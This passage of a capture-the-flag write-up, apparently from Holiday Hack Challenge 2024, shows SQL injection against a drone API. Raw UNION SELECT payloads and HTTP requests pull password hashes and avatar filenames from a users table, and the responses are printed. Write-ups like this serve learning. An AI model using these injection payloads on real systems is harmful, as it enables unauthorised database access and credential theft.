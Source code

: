 These weren't earth-shattering, but made me realize that using the `quantity` column seemed to be the problem. From here, I went on to extract the `password` values:

```http
Zapper' UNION SELECT password,1,1 from users; /*

GET /api/v1.0/drones?drone=Zapper'%20UNION%20SELECT%20password%2c1%2c1%20FROM%20users%3b%20%2f* HTTP/2
```

```http
HTTP/2 200 OK
...omitted for brevity...

[{"name":"2bb7ab7713cc012f02eb03c95f6e4443","quantity":1,"weapons":1},{"name":"2fd03c8ea542a7fd85ca4ebbcc13d5ca","quantity":1,"weapons":1},{"name":"3c3a4f722ec77c1712941003443a4d83","quantity":1,"weapons":1},{"name":"4f7f1b7c49fa2b0cc22e2d2599f1f2e5","quantity":1,"weapons":1},{"name":"9eb6c13b1b18bc785ffb84d977bf5499","quantity":1,"weapons":1},{"name":"Zapper","quantity":"5","weapons":"CarrotSpike"},{"name":"b9af6f935826ae1a89ecba72476fbcba","quantity":1,"weapons":1},{"name":"e54efff9e6258bef3eb35f093e3bae00","quantity":1,"weapons":1}]
```

And the `avatar` values:

```http
Zapper' UNION SELECT avatar FROM users; /*

GET /api/v1.0/drones?drone=Zapper'%20UNION%20SELECT%20avatar%2c1%2c1%20FROM%20users%3b%20%2f* HTTP/2
```

```http
HTTP/2 200 OK
...omitted for brevity...

[{"name":"2cf1d29136d246eeb42149e65358abb3.png","quantity":1,"weapons":1},{"name":"Zapper","quantity":"5","weapons":"CarrotSpike"},{"name":"elf13.png","quantity":1,"weapons":1},{"name":"elf17.png","quantity":1,"weapons":1},{"name":"elf23.png","quantity":1,"weapons":1},{"name":"elf3.png","quantity":1,"weapons":1},{"name":"elf5.png","quantity":1,"weapons":1},{"name":"elf6.png","quantity":1,"weapons":1}]
```

Grabbing the `avatar` image with a hash-looking name yielded:

![A troll in HHC 2024!](img/2cf1d29136d246eeb42149e65358abb3.png)

A troll!
